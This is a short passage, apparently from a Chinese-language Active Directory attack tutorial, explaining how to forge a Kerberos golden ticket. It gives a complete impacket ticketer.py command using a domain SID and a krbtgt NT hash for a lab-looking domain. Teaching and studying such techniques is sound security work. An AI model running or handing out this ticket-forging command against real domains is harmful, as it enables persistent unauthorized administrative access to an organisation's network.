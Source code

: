 注意金票会随着 krbtgt 密码的修改而失效

在银票的命令基础上去掉-spn，将 nthash 修改为 krbtgt 的 hash 即可。

```plain
py -3 .\ticketer.py -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
```

[![](assets/1702372846-4f396c4b3645ab8a76fdad2a68f210d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123703-a49dcc44-6bb1-1.png)
